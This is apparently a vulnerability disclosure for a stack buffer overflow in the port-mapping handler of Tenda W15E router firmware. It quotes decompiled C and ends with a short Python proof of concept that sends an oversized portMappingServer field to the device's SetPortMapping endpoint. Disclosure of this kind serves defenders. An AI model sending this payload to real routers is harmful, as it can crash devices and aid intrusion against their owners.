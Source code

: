 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-2722.html

## Affected version

W15EV1.0 V15.11.0.14

## Vulnerability details

The Tenda W15EV1.0 V15.11.0.14 firmware has a stack overflow vulnerability in the `formSetPortMapping` function. The `pPortMapIndex` variable receives the `portMappingIndex` parameter from a POST request and we let `iPortMapIndex + 1 <= 20`. However, since the user can control the input of `portMappingServer, portMappingProtocol, portMappingWan, porMappingtInternal, portMappingExternal `, the statement

```c
pLanIP = websGetVar(wp, "portMappingServer", byte_DA130);
pProtocl = websGetVar(wp, "portMappingProtocol", byte_DA130);
pWanid = websGetVar(wp, "portMappingWan", byte_DA130);
pLanPortRange = websGetVar(wp, "porMappingtInternal", byte_DA130);
pWanPortRange = websGetVar(wp, "portMappingExternal", byte_DA130);
sprintf(
      (char *)sMibValue,
      "%s;%s;%s;%s;%s;%d",
      (const char *)pWanid,
      (const char *)pWanPortRange,
      (const char *)pLanPortRange,
      (const char *)pLanIP,
      (const char *)pProtocl,
      1);
```

can cause a buffer overflow. The user-provided  `portMappingServer, portMappingProtocol, portMappingWan, porMappingtInternal, portMappingExternal` can exceed the capacity of the `cmd` array, triggering this security vulnerability.

![image-20240417095245951](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240417095245951.png)

![image-20240417095309531](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240417095309531.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetPortMapping"
payload = b"a"*2000

data = {
        'portMappingIndex': 1,
    	'portMappingServer':payload,
    }
response = requests.post(url, data=data)
print(response.text)
```

![image-20240416114043980](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240416114043980.png)
